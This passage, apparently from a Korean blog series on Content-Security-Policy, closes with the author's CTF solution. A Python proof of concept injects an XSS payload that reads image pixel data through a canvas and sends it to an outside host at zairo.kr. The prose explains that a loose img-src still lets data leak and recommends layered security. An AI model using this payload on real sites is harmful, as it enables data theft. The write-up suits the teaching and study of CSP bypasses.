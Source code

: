 ```python
import urllib.parse
import requests

data = open('1.bmp', 'rb').read()[:0x30]
print(urllib.parse.quote(data))

url = "http://yayacc.zajebistyc.tf/note"

data = {
    "cat_url": "/flag?var="+urllib.parse.quote(data),
    "content": "<marquee>Yee</marquee>",
}

res = requests.post(url, data=data, allow_redirects=False)

u = res.text[res.text.find("<a href")+9:res.text.find("\">/note/")]
uuid = u[u.rfind('/')+1:]

data = {
    "cat_url": '''/*</script>
    <META HTTP-EQUIV="refresh" CONTENT="0;url=//yayacc.zajebistyc.tf/note/'''+ uuid +'''?theme=1;img.onload = function(){var canvas=document.createElement(`canvas`);var ctx=canvas.getContext(`2d`);ctx.drawImage(img,0,0);location.href=`http://zairo.kr:1234/?`+escape(String.fromCharCode.apply(null, ctx.getImageData(0,0,img.width,img.height).data.slice(0,20)));}">
    //
    ''',
    "content": "<marquee>Yee</marquee>",
}

res = requests.post(url, data=data, allow_redirects=False)

u = res.text[res.text.find("<a href")+9:res.text.find("\">/note/")]
print("http://yayacc.zajebistyc.tf" + u)
```

[1.bmp](/assets/2021-05-01/1.bmp)

Content-Security-Policy 설정 시 직접적인 발단이 될 수 있는 script-src에만 nonce, URL을 통한 제약을 설정하고 img-src에 대한 설정은 'self' 또는 *로 설정하는 것이 일반적인데, 만약 XSS 취약점이 발생한다면 이미지를 통해서도 데이터를 유출할 수 있음을 알려주고자 하는 것이 출제자의 의도로 풀이 됩니다.

위는 제가 대회 당시 해당 문제를 풀었던 PoC(Proof of Concept) 코드 입니다. 현재는 해당 문제에 대한 문제 코드 및 정보가 남아 있지 않아 자세히 설명드리지 못하는 점 양해 부탁드립니다. 이 외에도 CSP 제약 안에서 다양한 기법(CSS injection, Cache poisoning, CDN callback, Side-channel attack등)을 이용한 CSP 우회 방법 등이 계속하여 등장하고 있으므로 우회가 가능한 케이스를 지속적으로 습득하여 우회가 가능한 환경을 만들지 않도록 하는 것이 중요할 것으로 사료됩니다.

## 7. 마치며

이번 시리즈에서는 XSS 취약점에서 부터 시작한 여러가지 보안 정책에 대해서 알아보았습니다. 다수의 정책이 서로 다른 커버리지를 보완하는 것을 보면서 공격자가 하나의 정책을 우회하더라도 다른 정책에서 차단될 수 있도록 전체적인 단계별로 Layered Security 개념을 적용하는 것이 중요하다는 것을 이번 사례를 통해 알아보았습니다. 많은 웹 개발자 분들과 보안 연구원 분들이 CSP에 대해 이해하고 보다 안전한 서비스를 만드는 것에 제 글이 조금이나마 도움이 되었으면 좋겠습니다. 긴 글 읽어주셔서 감사합니다. 

## 8. 참고자료
